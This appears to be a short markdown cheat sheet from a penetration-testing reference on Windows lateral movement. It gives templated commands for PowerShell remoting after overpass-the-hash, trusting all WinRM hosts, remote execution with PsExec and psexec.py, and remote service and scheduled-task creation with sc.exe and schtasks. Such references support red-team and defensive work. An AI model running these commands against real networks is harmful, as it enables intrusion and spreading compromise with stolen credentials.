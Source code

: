#### Copy item from PSSession
```
Copy-Item -FromSession $sess -Path <PATH> -Destination <DEST> -verbose
```

#### PSremoting NTLM authetication (after overpass the hash)
```
Enter-PSSession -ComputerName <COMPUTERNAME> -Authentication NegotiateWithImplicitCredential
```

#### Get trusted hosts
```
Get-Item WSMan:\localhost\Client\TrustedHosts
```

#### Add trusted host
```
Set-Item WSMan:\localhost\Client\TrustedHosts -Value '<MACHINE OR IP>' -Concatenate
```

#### Trust all hosts
```
Set-Item WSMan:\localhost\Client\TrustedHosts -Value '*'
```

### PSexec
```
psexec.exe -u <DOMAIN>\<USER> -p <PASSWORD> \\<TARGET> cmd.exe
python psexec.py <DOMAIN>/<USER>:<PASSWORD>@<TARGET>
```

### SC.exe
- Smbexec.py can be used to automate the process
```
sc.exe \\<TARGET> create SERVICE_NAME displayname=NAME binpath="COMMAND" start=demand
sc.exe \\<TARGET> start SERVICE_NAME
sc.exe \\<TARGET> delete SERVICE_NAME
```

### Schtasks.exe
```
schtasks /create /F /tn <TASKNAME> /tr COMMAND /sc once /st 23:00 /s <TARGET> /U <USER> /P <PASSWORD>
schtasks /run /F /tn <TASKNAME> /s <TARGET> /U <USER> /P <PASSWORD>
schtasks /delete /F /tn <TASKNAME> /s <TARGET>
```

### AT
```
reg.py
atexec.py
```
